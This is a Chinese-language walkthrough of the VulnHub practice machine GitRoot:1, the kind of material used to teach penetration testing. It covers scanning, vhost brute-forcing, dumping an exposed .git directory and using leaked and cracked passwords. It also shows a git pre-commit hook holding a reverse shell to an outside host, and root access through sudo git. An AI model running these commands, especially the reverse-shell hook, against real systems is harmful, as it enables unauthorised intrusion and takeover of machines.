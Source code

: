 # GitRoot：1

2025.03.01 https://www.vulnhub.com/entry/gitroot-1,488/

[video]()

## Ip

192.168.5.40

## Scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
11211/tcp open  memcache
```

先扫一下 80 web，http://192.168.5.40/index.html 中提示:

```
Hey Jen, just installed wordpress over at wp.gitroot.vuln
please go check it out!
```

添加 wp.gitroot.vuln 到 hosts 文件，再访问 http://wp.gitroot.vuln/ 底部显示 wordpress ，先用 wpscan 进行扫描，WordPress version 5.0.4，只枚举到一个用户: beth , 插件 akismet 4.1 没有有效利用。

暂时不想用 rockyou 进行爆破，看看 memcache 中是否能拿到登陆密码，尝试之后没有信息。

只好使用 wpscan 进行 beth 的爆破，也没有结果。

联想到添加了自定义的域名可能有 vhost，尝试爆破一下：

```
gobuster vhost -t 64 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain --domain gitroot.vuln -u http://192.168.5.40

Found: repo.gitroot.vuln Status: 200 [Size: 438]
```

将 repo.gitroot.vuln 添加到 hosts 中，访问 http://repo.gitroot.vuln/ 上面显示两个可以访问连接，欢迎随意在 get.php 上搜索我们的代码库或在 set.php 中设置代码，访问这两个页面没看出什么信息，使用 gobuster 扫描一下这个域名发现 http://repo.gitroot.vuln/.git 使用 githack 将代码脱下来：

```
python3 ~/Documents/GitHack/GitHack.py http://repo.gitroot.vuln/.git
```

查看源代码，其中 http://repo.gitroot.vuln/stats.php 可以访问到 memcached 的状态，set.php 可以设置数据到 memcached，get.php 可以获得存储 key 对应的 value。

同时发现另外一个文件 33513a92c025212dd3ab564ca8682e2675f2f99bba5a7f521453d1deae7902aa.txt：

```
pablo_S3cret_P@ss
beth_S3cret_P@ss
jen_S3cret_P@ss
```

像是密码，使用之前得到的 beth 用户在爆破一下，不是 wordpress 和 ssh 的登陆密码。同时看到了另外的一个用户名 pablo , 在爆破一下这个用户的 ssh 密码吧，很长一段时间过去后，找到了登陆密码 mastergitar

登陆后，先拿到了 user flag：

```
pablo@GitRoot:~$ cat user.txt

  _______ _                 _                          _____      _     _
 |__   __| |               | |                        |  __ \    | |   | |
    | |  | |__   __ _ _ __ | | __  _   _  ___  _   _  | |__) |_ _| |__ | | ___
    | |  | '_ \ / _` | '_ \| |/ / | | | |/ _ \| | | | |  ___/ _` | '_ \| |/ _ \
    | |  | | | | (_| | | | |   <  | |_| | (_) | |_| | | |  | (_| | |_) | | (_)
    |_|  |_| |_|\__,_|_| |_|_|\_\  \__, |\___/ \__,_| |_|   \__,_|_.__/|_|\___/
                                    __/ |
                                   |___/


Great job! Do not falter, there is more to do. You made it this far, finish the race!

"It's not that I'm so smart. Its just that I stay with problems longer." - Albert Einstein

8a81007ea736a2b8a72a624672c375f9ac707b5e
```

发现了另外一个提示，message.txt 文件的所有者是 beth：

```
pablo@GitRoot:~/public$ cat message.txt
Hey pablo

Make sure to check-out our brand new git repo!
```

提示说找到新的 repo，经过枚举，发现 /opt/auth/.git，发现了很多 branch，进入到 /opt/auth/.git/logs/refs/heads 中，发现这个 branch 的大小与其他不同：dev-43 查看它的提交记录：

```
pablo@GitRoot:/opt/auth/.git/logs/refs/heads$ cat dev-43
0000000000000000000000000000000000000000 fc9901f3b6b303d6ad40cdb71689f1646904f7b3 Your Name <you@example.com> 1590499965 -0400	branch: Created from HEAD
fc9901f3b6b303d6ad40cdb71689f1646904f7b3 b2ab5f540baab4c299306e16f077d7a6f6556ca3 Your Name <you@example.com> 1590500014 -0400	commit: init repo
b2ab5f540baab4c299306e16f077d7a6f6556ca3 06fbefc1da56b8d552cfa299924097ba1213dd93 Your Name <you@example.com> 1590500148 -0400	commit: added some stuff
06fbefc1da56b8d552cfa299924097ba1213dd93 aaa283c708d79c692797339434664f4ba7accb25 Your Name <you@example.com> 1590500197 -0400	commit: init repo

pablo@GitRoot:/opt/auth/.git/logs/refs/heads$ git show 06fbefc1da56b8d552cfa299924097ba1213dd93
+        if (strcmp(pass, "r3vpdmspqdb") == 0 ){
+                char *cmd[] = { "bash", (char *)0 };
+                execve("/bin/bash", cmd, (char *) 0);
+        }

```

或者这样操作：

```
git checkout dev-43
git show
```

发现了一个密码 r3vpdmspqdb 可能是其中一个用户的，进行 su 切换验证，发现是 beth 用户的密码。

同时发现另外一个提示：

```
beth@GitRoot:~$ cd public/
beth@GitRoot:~/public$ ls
addToMyRepo.txt
beth@GitRoot:~/public$ cat addToMyRepo.txt
Hello Beth

If you want to commit to my repository you can add a zip file to ~jen/public/repos/ and ill unzip it and add it to my repository

Thanks!
```

根据提示说添加一个 zip 到 jen/public/repos/ 它会自解压，然后提交到自己的 repo 中，这个文件是 jen 用户创建的。

看看能不能在 git 上得到提权的路径，使用钩子进行提权：

```
cd /tmp
mkdir repo
cd repo
git init
echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' > ".git/hooks/pre-commit"
# echo 'exec -c "cp /bin/bash /tmp/jenbash; chmod +xs /tmp/jenbash"' > ".git/hooks/pre-commit"
chmod 777 ".git/hooks/pre-commit"
7z a rev.zip .git
cp rev.zip /home/jen/public/repos/
```

在 kali 上创建监听等待反弹，等待几分钟发现得到了反弹的 shell：

```
jen@GitRoot:~/private/repo$ id
id
uid=1003(jen) gid=1003(jen) groups=1003(jen)
```

同时看到了解压的脚本：

```
jen@GitRoot:~/private$ cat add.sh
cat add.sh
rm -rf /home/jen/private/repo/.git/
cd /home/jen/private/repo/
git init
7za x -aos -o/home/jen/private/repo/ ~jen/public/repos/*
git add .
git commit --allow-empty -m "Thanks beth!"
rm -f /home/jen/public/repos/*
```

在 .viminfo 中发现了疑似的密码：

```
# Search String History (newest to oldest):
?/binzpbeocnexoe
|2,1,1590471908,47,"binzpbeocnexoe"
```

可能是 jen 的密码 sudo -l 输入 binzpbeocnexoe 显示 (ALL) /usr/bin/git ，现在可以直接提权到 root 了：

```
sudo -u root git help config
输入: !/bin/bash
```

得到了 root 权限，拿到 root flag：

```
root@GitRoot:~# cat root.txt

Thank you for completing my box! Please let my know what you liked and what you didn't like at my twitter @Recursive_NULL

734ae32be131cd0681f86c03858f4f587a3c69ce
```

